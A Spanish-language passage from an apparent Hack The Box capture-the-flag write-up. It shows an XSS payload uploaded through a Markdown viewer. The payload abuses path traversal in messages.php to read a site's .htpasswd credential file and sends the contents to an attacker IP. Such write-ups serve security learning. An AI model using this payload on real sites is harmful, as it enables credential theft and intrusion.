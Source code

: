 El archivo lo subiremos en el visualizador Markdown del sitio web.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.5/?file_content=" + encodeURIComponent(data));
  });
</script>
```

<figure><img src="../../.gitbook/assets/imagen (234).png" alt=""><figcaption></figcaption></figure>

Al subir el archivo, nos da la opción de `Share Markdown` el cual nos porporciona un enlace.

